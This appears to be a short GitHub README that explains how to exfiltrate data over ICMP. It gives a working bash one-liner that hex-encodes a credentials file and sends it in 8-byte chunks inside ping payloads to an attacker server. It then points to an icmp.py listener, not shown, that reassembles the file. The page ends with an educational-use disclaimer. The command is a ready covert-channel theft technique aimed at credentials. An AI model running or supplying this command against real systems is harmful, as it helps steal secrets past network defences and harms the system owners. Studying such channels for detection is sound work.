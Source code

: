 # Data Exfiltration via ICMP

Step 1 )> Run the following command on the client server from linux command line to read the target file in fixed-size chunks and sent each chunk to our server (8 bytes) by embedding it into ICMP packets, effectively exfiltrating the data bit by bit.:
```bash
xxd -p -c 8 creds.txt | while read h; do ping -c 1 -p $h <Server-IP>; done
```

<img width="1409" height="552" alt="icmp_1" src="https://github.com/user-attachments/assets/e8a6b8c4-0888-427e-82d6-9c80b77a078b" />


Step 2 )> Run the ```icmp.py``` script on your server to capture incoming ICMP packets and extract the embedded data, and then reassemble the original file to reconstruct it fully.

<img width="1333" height="329" alt="icmp_2" src="https://github.com/user-attachments/assets/b32225f5-8585-46ae-8c79-b088a23f10b6" />


**Disclaimer: This is for educational and defensive use only. Do not perform unauthorized testing, exploitation, or data exfiltration against systems you do not own or have explicit written permission to test.**
